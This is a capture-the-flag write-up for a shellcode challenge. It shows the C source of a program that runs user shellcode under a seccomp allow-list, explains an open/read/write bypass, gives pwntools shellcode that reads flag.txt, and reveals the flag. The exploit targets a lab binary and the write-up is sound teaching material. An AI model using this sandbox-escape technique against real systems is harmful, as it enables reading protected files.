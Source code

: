 # $hellc0de-0x2

## Write-up

- Source code :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <seccomp.h>
#include <unistd.h>

#define CODE_SIZE 200

void disable_buffering(void);
void sandbox(void);

char code[CODE_SIZE] = { '\0' };

int main(int argc, char *argv[]) {
  disable_buffering();

  printf("Note: Flag filename is flag.txt\n");
  printf("Enter your shellcode : ");

  read(0, code, CODE_SIZE);

  sandbox();

  (*(void(*)()) code)();

  return EXIT_SUCCESS;
}

void disable_buffering(void) {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);
}

void sandbox(void) {
  scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
  if (ctx == NULL) {
    fprintf(stderr, "seccomp error\n");
    exit(EXIT_FAILURE);
  }

  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
  seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
  if (seccomp_load(ctx) < 0) {
    seccomp_release(ctx);
    exit(EXIT_FAILURE);
  }
  seccomp_release(ctx);
}
```

- A seccomp filter is used and in this case it's a whitelist filter, i.e: only a few syscalls are allowed : `open`, `read`, `write`, `exit` and `exit_group`
- Since flag file is `flag.txt`, we can use the combination of `open`, `read` and `write` to read it, like this :  
  - `open("./flag.txt", 0)` : open flag file, file descriptor is returned in `RAX` register
  - `read(RAX, rwbuf, 0x100)` : read 0x100 bytes from open file descriptor to a controlled read/write buffer address (rwbuf)
  - `write(1, rwbuf, 0x100)` : print 0x100 bytes from rwbuf to stdout
- We can use the `shellcraft` module from `pwntools` to generate the shellcode :  

```python
# R/W address
RWBUF = 0x601800
READSIZE = 0x100
shellcode = asm(
    shellcraft.open("./flag.txt", 0) +
    shellcraft.read("rax", RWBUF, READSIZE) +
    shellcraft.write(1, RWBUF, READSIZE)
)
```

- Full automated exploit with pwntools [here](solve.py)

## Flag

`shellmates{op3N_rE4D_WritE_F0r_Th3_W1N}`
